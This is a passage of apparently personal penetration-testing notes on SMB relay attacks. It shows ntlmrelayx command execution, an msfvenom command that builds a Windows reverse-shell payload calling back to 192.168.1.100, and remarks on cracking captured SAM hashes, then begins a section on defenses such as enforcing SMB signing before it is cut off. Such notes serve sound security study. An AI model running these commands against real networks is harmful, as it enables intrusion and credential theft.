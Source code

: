 - **Change User Password**:
    
    ```Shell
    changepw <username>
    ```
    

### 6. **Advanced Shell Techniques**

- **Execute Remote Commands**:
    - Use the `c` option to execute specific commands:
        
        ```Shell
        ntlmrelayx.py -tf targets.txt --smb2support -c "whoami"
        ```
        
- **Obtain Reverse Shell**:
    - Generate a payload using **msfvenom**:
        
        ```Shell
        msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
        ```
        
    - Upload the payload via the SMB shell and execute it to get a reverse shell.

### 7. **Key Takeaways**

- The **interactive SMB shell** is a powerful tool that allows deep interaction with the target system.
- This attack leverages the absence of **mandatory SMB signing**, a common oversight in default Windows configurations.
- The captured **SAM hashes** can be used for offline cracking or further lateral movement.

---

# SMB Relay Attack Defenses

---

## Mitigation Strategies for SMB Relay Attacks

### Overview

**SMB Relay attacks** exploit weak authentication configurations in Windows networks, especially when **SMB signing** is not enforced. Mitigating these attacks requires a combination of system hardening, authentication restrictions, and proper account management.

### 1. **Enable SMB Signing**

- **Description**: Enforcing SMB signing ensures the integrity and authenticity of SMB communications, effectively preventing relay attacks.
- **How to Enable**:
    - **Group Policy**:
        